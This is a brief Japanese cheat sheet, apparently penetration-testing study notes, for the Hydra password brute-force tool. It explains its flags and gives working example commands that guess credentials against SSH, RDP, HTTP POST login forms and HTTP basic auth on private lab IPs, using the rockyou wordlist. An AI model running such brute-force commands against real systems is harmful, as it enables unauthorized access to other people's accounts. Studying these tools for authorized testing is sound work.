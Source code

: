 # hydra
[Documentation](https://github.com/vanhauser-thc/thc-hydra)

## 概要
C言語ベースのパスワードブルートフォース用のツール

## コマンド集

-l => 単一のユーザ名を指定  
-P => パスワードのワードリストを指定  
-s => ポートを指定  
-L => ユーザ名のリストを指定(複数のユーザ名を指定)  

例
```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh:192.168.50.201
```

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

POSTを要求するエンドポイントで実行するコマンド
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:rm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

basic認証でGETリクエストをブルートフォースすることもできる
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.221.201 http-get 
```
